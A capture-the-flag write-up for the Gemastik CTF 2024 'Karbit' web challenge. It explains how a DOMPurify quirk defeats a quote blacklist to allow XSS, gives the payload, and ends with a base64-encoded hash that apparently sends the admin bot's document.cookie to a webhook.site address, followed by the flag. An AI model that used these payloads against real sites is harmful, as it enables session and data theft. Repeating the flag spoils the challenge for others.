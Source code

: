 ```yaml
---
title: Gemastik CTF 2024 - Karbit
date: 2024/8/6
description: Exploiting the popular XSS sanitizer
tags: [web, xss]
---
```


## Challenge Description

Setelah bertahun tahun menjadi orang normal, akhirnya kamu berkesempatan untuk menjadi raja Karbit. Tapi, untuk menjadi raja Karbit, kamu harus menyelesaikan tantangan yang diberikan oleh raja Karbit sebelumnya. Kamu harus bisa membuktikan bahwa kamu bisa mencuri data rahasia dari raja Karbit sebelumnya. Curi data tersebut dan buktikan bahwa kamu layak menjadi raja Karbit.

**Author**: Dimas Maulana

[dist.zip](/images/posts/gemastik-ctf-2024-karbit/dist.zip)

<details>
	<summary>TL;DR</summary>
	There's a mistake in using the `DOMPurify.sanitize()` function where it automatically adds `"` in certain cases that
	we can use to execute XSS.
</details>

## Initial Analysis

This is what the website looks like:

![web](/images/posts/gemastik-ctf-2024-karbit/web.png)

Every time we claim a waifu, this website saves the waifu image URL in the URL as a hash. The hash is in base64 format.

Here's an example: http://ctf.gemastik.id:9012/#L3FHdVJsZEQuZ2lm

If we try to decode the hash, it forms a path to the waifu image:

![base64](/images/posts/gemastik-ctf-2024-karbit/base64.png)

Then I checked the JavaScript source code:

```html filename="index.html" copy
<script>
	const waifusContainer = document.querySelector(".waifus");
	const claimedWaifusContainer = document.querySelector(".claimed-waifus");
	const REGEX_SAVE_PROPS = /['"]/;
	const initialHash = location.hash ? atob(location.hash.substring(1)) : "";

	function createWaifuCardHTML(file, buttonText, buttonAction) {
		const sanitizedFile = DOMPurify.sanitize(file);
		const imgHTML = `<img src="${sanitizedFile}" class="card-img-top">`;
		const buttonHTML = `<button class="btn btn-outline-light" onclick="${buttonAction}('${sanitizedFile}')">${buttonText}</button>`;
		return `<div class="card text-center waifu-item">${imgHTML}<div class="btn-container">${buttonHTML}</div></div>`;
	}

	function throwAlert(message) {
		document.location.hash = "";
		alert(message);
		document.location = document.referrer;
	}

	function claimWaifu(file) {
		const sanitizedPath = DOMPurify.sanitize(new URL(file).pathname);
		let currentHash = location.hash ? atob(location.hash.substring(1)) : "";
		const currentPaths = currentHash ? currentHash.split("|") : [];
		if (!currentPaths.includes(sanitizedPath)) {
			currentPaths.push(sanitizedPath);
			location.hash = btoa(currentPaths.join("|"));
			displayClaimedWaifus(currentPaths);
		}
	}

	function removeWaifu(file) {
		const sanitizedPath = DOMPurify.sanitize(new URL(file).pathname);
		let currentHash = atob(location.hash.substring(1));
		const currentPaths = currentHash.split("|").filter((p) => p !== sanitizedPath);
		location.hash = btoa(currentPaths.join("|"));
		displayClaimedWaifus(currentPaths);
	}

	function displayClaimedWaifus(paths) {
		if (REGEX_SAVE_PROPS.test(initialHash)) {
			throwAlert("Invalid characters detected in the hash. Please try again.");
		}
		let claimedWaifusHTML = "";
		paths.forEach((path) => {
			const file = `https://i.waifu.pics${path}`;
			const cardHTML = createWaifuCardHTML(file, "Remove", "removeWaifu");
			claimedWaifusHTML += cardHTML;
		});
		claimedWaifusContainer.innerHTML = claimedWaifusHTML;
	}

	document.addEventListener("DOMContentLoaded", () => {
		fetch("https://api.waifu.pics/many/sfw/smile", {
			method: "POST",
			headers: {
				"Content-Type": "application/json",
			},
			body: JSON.stringify({}),
		})
			.then((response) => response.json())
			.then((data) => {
				let waifusHTML = "";
				data.files.slice(0, 16).forEach((file) => {
					const cardHTML = createWaifuCardHTML(file, "Claim", "claimWaifu");
					waifusHTML += cardHTML;
				});
				waifusContainer.innerHTML = waifusHTML;
			});

		const initialPaths = initialHash ? initialHash.split("|") : [];
		displayClaimedWaifus(initialPaths);
	});
</script>
```

Here's the JavaScript execution flow:

1. Get the claimed waifu image paths if they exist in the URL hash
2. Then insert each path into the `src` attribute of the `<img />` tag

So from that, we should be able to inject XSS into the URL hash. The problem is we can't put `"` to escape from the `src` attribute because there's protection from `REGEX_SAVE_PROPS` that blacklists `"` and `'` characters.

It looks like it's impossible to exploit XSS here, right?

Turns out, we can exploit the `DOMPurify.sanitize()` function to automatically add `"`.

For example, if we try to input this into that function:

```js
DOMPurify.sanitize("<img src=url />");
```

then the HTML element that will be rendered becomes like this (notice that " will be automatically added):

```html
<img src="url" />
```

## Solution

Now, from that theory we can already create the payload. Focus on this part:

```js
const imgHTML = `<img src="${sanitizedFile}" class="card-img-top">`;
```

So the suitable payload is this:

```html
<img src=onerror=alert(`xss`)// />
```

Because if that payload is sanitized, this is the output:

![payload](/images/posts/gemastik-ctf-2024-karbit/payload.png)

Okay cool, now we just need to encode it with base64 in cyberchef then try to put it in the URL hash, and...

![xss](/images/posts/gemastik-ctf-2024-karbit/xss.png)

Now, let's get the flag. There's an admin bot page at `/report`, and the flag is also at http://proxy. Let's design the final payload:

```
http://proxy/#PGltZyBzcmM9b25lcnJvcj1mZXRjaChgaHR0cHM6Ly93ZWJob29rLnNpdGUvZWVjNGM4YWQtODliMi00ZDRmLWE2NDYtM2M1MGM3NTViMDQzP2ZsYWc9JHtkb2N1bWVudC5jb29raWV9YCkvLyAvPg==
```

Got the flag:

![flag](/images/posts/gemastik-ctf-2024-karbit/flag.png)

## Flag

`gemastik{S3l4m4t_anda_t3lah_m3nj4d1_r4j4_karbit}`
